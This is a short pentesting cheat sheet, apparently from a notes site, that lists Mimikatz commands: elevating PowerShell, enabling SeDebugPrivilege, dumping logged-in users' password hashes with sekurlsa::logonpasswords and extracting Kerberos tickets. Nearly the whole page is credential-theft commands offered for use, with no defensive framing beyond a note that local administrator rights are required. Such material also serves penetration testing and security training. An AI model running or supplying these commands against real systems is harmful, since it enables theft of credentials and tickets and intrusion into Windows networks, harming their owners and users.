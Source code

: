 # Mimikatz

{% hint style="danger" %}
need to be a  local administrator
{% endhint %}

Run as administrator in powershell

```powershell
Start-Process powershell.exe -Verb RunAs
```

### Start mimikatz:

```powershell
.\mimikatz.exe
```

Enable SeDebugPrivilege:

```powershell
privilege::debug
```

### Dump hashes for logged in users

```powershell
sekurlsa::logonpasswords
```

### Extract kerberos tickets

```powershell
sekurlsa::tickets
```

